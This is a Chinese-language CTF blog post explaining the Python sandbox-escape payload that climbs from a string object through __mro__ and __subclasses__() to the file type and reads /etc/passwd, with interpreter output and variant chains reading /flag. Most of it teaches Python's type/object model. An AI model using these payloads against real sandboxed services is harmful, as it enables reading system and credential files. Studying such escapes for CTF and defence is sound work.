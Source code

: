 ```yaml
---
title: 关于python魔术方法payload："".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() 的解释
date: 2019-01-02 00:00:00
categories:
- CTF/Web
tags: python沙箱逃逸
---
```


## 总览

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

其实就是类似java的反射，通过一个对象找到另一个对象，这里通过一个字符串对象，找了一个文件对象，然后初始化，读取，就是这么个事。

```python

# 获得一个字符串实例
>>> ""
''

# 获得字符串的type实例
>>> "".__class__ 
<type 'str'>

# 获得其父类
>>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)

# 获得父类中的object类
>>> "".__class__.__mro__[2] 
<type 'object'>

# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>

# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__() 
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40] 
<type 'file'>

# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd") 
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>

# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>

# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged 
User:/var/empty:/usr/bin/false
root:*:0:0:System 
Administrator:/var/root:/bin/sh

```

## 问题

### 问

但我怎么知道```__subclasses__```是一个方法，而不是一个直接可以返回数组的变量呢？我又怎么知道什么类有什么方法或者属性呢？比如我如何知道应该用```__mro__```属性去找父类？而```__mro__```是什么类的成员方法？？

### 答

首先```__subclasses__```是方法还是属性可以根据提示来判断如：

```python
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>
```

另外，python中有一个内置函数是dir()，可以用这个函数来查看传入参数的成员方法以及属性，我们来尝试一下

```python
>>> dir("")
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
>>> dir("".__class__)
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```
首先我们看到```dir("")与dir("".__class__)```的结果是完全一样的

按照```"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()``` 的利用方法，接下来应该使用```__mro__```这个属性，来获得父类，但是我并没有在```dir("".__class__)```中看到这个属性，这是为什么呢？```__mro__```属性在哪呢？

## type与object

为了解释上面的这个问题，我们先要了解在python中的一个哲学问题，就是type与object的问题，这二位就像是哲学上的物质与意识，不仅相互关联，而且不可分割。

[Python 的 type 和 object 之间是怎么一种关系？](https://blog.csdn.net/piglite/article/details/78294112)

[python中的type和object详解](https://www.cnblogs.com/busui/p/7283137.html)

在Python的世界中：
- object是父子关系的顶端，所有的数据类型的父类都是它
- type是类型实例关系的顶端，所有对象都是它的实例的

也就是说这里不同于我们之前学到的类与对象的关系，这里有两条线，一个是类的关系，一个是实例的关系。也就是说：
- object和type都既是类又是实例
- object是type的一个实例
- type是object的子类

## ```__class__```与```__base__```属性

- ```__class__```属性可以沿着实例这条链往上走一个
- ```__base__```属性可以沿着父子类关系这个条链往上走一个

```python
>>> "".__class__
<type 'str'>
>>> "".__class__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__.__base__.__class__
<type 'type'>
```

可见之前的结论：object是type的一个实例， type是object的子类

```python
>>> "".__class__
<type 'str'>

>>> "".__base__
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute '__base__'

>>> "".__class__.__base__
<type 'basestring'>
```

我们可以看到""这个字符串对象中是没有```__base__```这个属性的，而```"".__class__```却可以获得，但是我们在前面的dir()函数中传入```""和"".__class__```所获得的结果是一样的啊，这两个都没有```__base__```属性，那么这个属性到底在哪呢？

## ```""```与```"".__class__```的区别

type()函数，用来返回变量的类型，返回的是一个type实例

```python
>>> ""
''
>>> "".__class__
<type 'str'>
>>> type("")
<type 'str'>
>>> type("".__class__)
<type 'type'>
```

我们可以看到字符串变量```""```是```<type 'str'>```的一个实例，而```<type 'str'>```是一个```<type 'type'>```实例，而其实```__base__```这个属性是在```<type 'type'>```中的属性。

## 真相

真相就在```<type 'type'>```中

```python
>>> "".__class__.__class__
<type 'type'>
>>> dir("".__class__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
>>> dir(type("".__class__))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
猛然发现这个里有```__base__,__class__,__subclasses__,__mro__```，原来这些玩意都在这里啊，也就是说这几个属性，只要是type实例应该都有。

## 重看利用

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

1. 通过```"".__class__```获得一个```<type 'str'>```的实例
2. 因为```<type 'str'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的__mro__属性获得其父类的顶端```<type 'object'>```
3.  因为```<type 'object'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的```__subclasses__()```函数获得object的所有子类
4.  找到第40个子类是文件，然后初始化调用读取方法即可


## 非得用```__mro__```么

我们看到，我们无非是要找到```<type 'object'>```然后调用```__subclasses__()```函数，因为object是父类的顶端，也即是用```__base__```到顶，所以如下方式均可成功：

```python

>>> "".__class__.__base__.__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
>>> type("".__class__).__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
```
## 总结函数

- ```__base__```：子类找父类
- ```__subclasses__()```：父类找子类
- ```__class__```：子实例找父实例

看起来好像没有父实例找子实例的方法或者属性


